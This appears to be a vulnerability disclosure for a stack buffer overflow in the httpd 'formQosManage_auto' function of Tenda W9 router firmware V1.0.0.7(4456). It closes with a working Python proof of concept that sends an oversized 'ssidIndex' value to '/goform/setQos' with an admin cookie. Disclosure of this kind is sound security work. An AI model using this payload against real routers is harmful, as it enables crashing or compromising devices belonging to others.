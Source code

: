 # Tenda W9 V1.0.0.7(4456) AP has stack buffer overflow vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tenda.com.cn/download/detail-2986.html

## Affected Version
V1.0.0.7(4456)
## Vulnerability Analysis
The following image displays the code for a stack buffer overflow vulnerability in the `formQosManage_auto` function of `httpd`. The value of the `ssidIndex` parameter will be concatenated ​​to local variable `var_54`, which will cause stack buffer overflow. 

![code](./code.png)
## POC
```python
import requests
from pwn import *
url = "http://192.168.0.1/goform/setQos"

payload = { 
    'ssidIndex': cyclic(5000),
    'ssid': '2.4G',
    'qosmode': '1'
    }

headers = {
    'Cookie':'w9v1_user=admin;'
}
requests.request("POST", url, data=payload, headers=headers)
```
## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.